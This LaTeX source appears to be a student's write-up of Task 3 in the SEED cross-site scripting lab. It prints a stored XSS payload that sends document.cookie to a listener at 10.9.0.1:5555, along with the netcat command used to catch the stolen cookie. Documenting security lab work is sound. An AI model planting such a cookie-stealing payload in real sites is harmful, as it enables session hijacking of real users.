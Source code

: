\documentclass[11pt]{article}
\begin{document}
\section*{Task 3:}
\label{sec:org35dd949}
\begin{itemize}
\item I logged back in as Samy and edited the previous code in the brief description section to read `<script>document.write('<img src=\url{http://10.9.0.1:5555?c}=' + escape(document.cookie) + ' >');`
\item I then went to the seed console and ran `nc -lknv 5555` to listen on port 5555
\item I then logged out and logged back in as Alice and went to Sammy's profile. The cookie contents were received therefore the attack was successful. See screenshot.
\end{itemize}
\begin{center}
\includegraphics[width=.9\linewidth]{./images/2.jpg}
\end{center}
\end{document}
